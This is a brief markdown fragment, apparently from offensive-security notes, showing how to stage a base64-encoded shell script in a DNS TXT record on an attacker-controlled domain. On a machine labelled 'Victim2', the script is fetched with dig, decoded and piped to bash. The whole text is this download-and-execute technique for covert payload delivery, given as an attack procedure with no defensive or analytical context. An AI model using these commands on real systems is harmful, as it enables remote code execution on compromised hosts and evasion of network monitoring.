 ## Example:


### 1) Victim2: cat /tmp/script.sh | base64

### 2) Add the encoded script as a TXT DNS record to the domain we control

### 3) Victim2: dig +short -t TXT script.example.com

### 4) Victim2: dig +short -t TXT script.example.com | tr -d "\"" | base64 -d | bash

